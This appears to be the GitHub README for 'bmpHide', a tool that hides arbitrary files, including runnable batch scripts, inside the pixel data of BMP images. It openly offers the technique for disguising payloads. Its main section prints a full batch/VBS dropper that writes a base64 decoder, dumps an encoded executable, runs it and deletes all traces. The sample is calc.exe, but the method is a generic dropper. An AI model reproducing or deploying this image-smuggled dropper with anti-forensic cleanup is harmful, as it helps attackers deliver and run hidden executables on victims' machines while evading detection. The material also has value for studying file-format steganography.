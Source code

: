 bmpHide
==========

  *This tool is inspired by the [Break into shell from MsPaint](http://hak5.org/episodes/hak5-925) trick.*

All bitmap images have a pixel array, which defines colour values for all the image pixels. This application takes advantage of this and embeds files within this pixel array of 24-bit BMP images. Although multiple versions of the BMP file format exist, they are well documented. 

Very useful facts about the way BMP bitmap files store the colours of the pixels:

 - The pixel array must begin at a memory address that is a multiple of 4 bytes.
 - The pixel array is padded to a multiple of 4 bytes in size.
 - Pixels are stored “upside-down” with respect to normal image raster scan order, starting in the lower left corner, going from left to right, and then row by row from the bottom to the top of the image.

**bmpHide** will convert the input file into an array of pixel RGB colours. The minimum necessary size of the output BMP file is determined automatically.

 

Usage Scenarios
---------------

Because a lot of applications are somewhat tolerant of any garbage data present at the beginning of their supported files, we can actually *paint* different other file types: archives, PDF documents, Office documents and fully functional batch scripts.

**Hide regular text files**

    $ python convert.py samples/test1.txt out.bmp
    [*] Reading text from samples/test1.txt
    [*] Need a 8x8 BMP
    [+] Writting BMP to out.bmp
    $ file out.bmp 
    out.bmp: PC bitmap, Windows 3.x format, 8 x 8 x 24
    $ cat out.bmp 
    BM
    
    The quick brown fox jumps over the lazy dog.
    Fox dwarves chop my talking quiz job

**Embed a simple batch file**

    $ python convert.py samples/test2.bat out.bmp
    [*] Reading text from samples/test2.bat
    [*] Need a 4x4 BMP
    [+] Writting BMP to out.bmp
    $ cat out.bmp 
    BMf6(0
    
    cmd.exe

**Embed archives**

    $ python convert.py samples/test3.zip out.bmp
    [*] Reading text from samples/test3.zip
    [*] Need a 12x12 BMP
    [+] Writting BMP to out.bmp
    $ file out.bmp 
    out.bmp: PC bitmap, Windows 3.x format, 12 x 12 x 24
    $ unzip -l out.bmp
    Archive:  out.bmp
    warning [out.bmp]:  58 extra bytes at beginning or within zipfile
      (attempting to process anyway)
      Length      Date    Time    Name
    ---------  ---------- -----   ----
            8  2014-09-20 20:17   test2.txt
    ---------                     -------
            8                     1 file

**PDF documents**

    $ python convert.py samples/test4.pdf out.bmp 
    [*] Reading text from samples/test4.pdf
    [*] Need a 20x20 BMP
    [+] Writting BMP to out.bmp
    $ file out.bmp 
    out.bmp: PC bitmap, Windows 3.x format, 20 x 20 x 24
    $ xpdf out.bmp

**Hide Office XML-based documents**

    $ python convert.py samples/test5.docx out.bmp 
    [*] Reading text from samples/test5.docx
    [*] Need a 44x44 BMP
    [+] Writting BMP to out.bmp

**Complex batch scripts**

We can embed inside a BMP a complex batch script which *dumps a base64 encoded binary, decodes it, launches the executable and deletes all the traces* when the process terminates:

    $ python createBat.py 
    Create a batch file (.BAT) that dumps and runs an exe.
    Usage: createBat.py <exe>
    $ python createBat.py samples/calc.exe 
    $ ls -al wrapper.bat 
    -rw-rw-r-- 1 ci ci 192829 Sep 22 21:21 wrapper.bat
    $ python convert.py wrapper.bat out.bmp 
    [*] Reading text from wrapper.bat
    [*] Need a 256x256 BMP
    [+] Writting BMP to out.bmp
    $ cat out.bmp 
    BM66(
    
    @echo off
    echo ' Decode and dump a base64 encoded file >> run.vbs
    echo ' Usage: cscript decode.vbs [inFile] [outFile] >> run.vbs
    echo ' E.g.: cscript decode.vbs binary.txt binary.out >> run.vbs
    echo Dim inFile, outFile >> run.vbs
    echo inFile = WScript.Arguments(0) >> run.vbs
    echo outFile = WScript.Arguments(1) >> run.vbs
    echo Dim objFS, objTS >> run.vbs
    echo Set objFS = CreateObject("Scripting.FileSystemObject") >> run.vbs
    echo Set objTS = objFS.OpenTextFile(inFile, 1) >> run.vbs
    echo Dim base64Encoded, base64Decoded >> run.vbs
    echo base64Encoded = objTS.ReadAll >> run.vbs
    echo base64Decoded = decodeBase64(base64Encoded) >> run.vbs
    echo writeBytes outFile, base64Decoded >> run.vbs
    echo Private Function decodeBase64(base64) >> run.vbs
    echo Dim DM, EL >> run.vbs
    echo Set DM = CreateObject("Microsoft.XMLDOM") >> run.vbs
    echo ' Create temporary node with Base64 data type >> run.vbs
    echo Set EL = DM.createElement("tmp") >> run.vbs
    echo EL.DataType = "bin.base64" >> run.vbs
    echo ' Set encoded String, get bytes >> run.vbs
    echo EL.Text = base64 >> run.vbs
    echo decodeBase64 = EL.NodeTypedValue >> run.vbs
    echo End Function >> run.vbs
    echo Private Sub writeBytes(file, bytes) >> run.vbs
    echo Dim binaryStream >> run.vbs
    echo Set binaryStream = CreateObject("ADODB.Stream") >> run.vbs
    echo binaryStream.Type = 1	' adTypeBinary >> run.vbs
    echo 'Open the stream and write binary data >> run.vbs
    echo binaryStream.Open >> run.vbs
    echo binaryStream.Write bytes >> run.vbs
    echo binaryStream.SaveToFile file, 2  ' adSaveCreateOverWrite >> run.vbs
    echo End Sub >> run.vbs
    echo TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA >> binary.txt
    echo 8AAAAA4fug4AtAnNIbgBTM0hVGhpcyBwcm9ncmFtIGNhbm5vdCBiZSBydW4gaW4gRE9TIG1vZGUuDQ0K >> binary.txt
    
    ........
    echo AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA== >> binary.txt
    run.vbs binary.txt binary.exe
    binary.exe
    del run.vbs
    del binary.exe
    del binary.txt
    del wrapper.bat

In this last case, the generated image looks like this:

![Not a stereogram!](http://cyberinc.co.uk/wp-content/uploads/2014/09/out.bmp)
Project content
---------------

**convert.py** - Store any file inside the pixel array of a 24-bit bitmap image (BMP).

    $ python convert.py [in-file] [out-file]

**decode.vbs** - VB helper script to decode and dump a base64 encoded file. Called from a BAT file, as there is no native base64 decoding functionality in .bat files without VBS.

    Base64 encode a binary:
    $ cat binary | base64 -w 0 > binary.txt
    Decode:
    > cscript decode.vbs binary.txt binary.out

**createBat.py** - Create a batch file (.BAT) that dumps and runs an exe. Cleans any trace afterwards.

    $ python createBat.py [exe]

References
----------

 - [Embedding files within bitmap images](http://cyberinc.co.uk/embedding-files-within-bitmap-images/)
 - [BMP File Format](http://en.wikipedia.org/wiki/BMP_file_format)
 - [Break into shell with MsPaint](http://hak5.org/episodes/hak5-925)


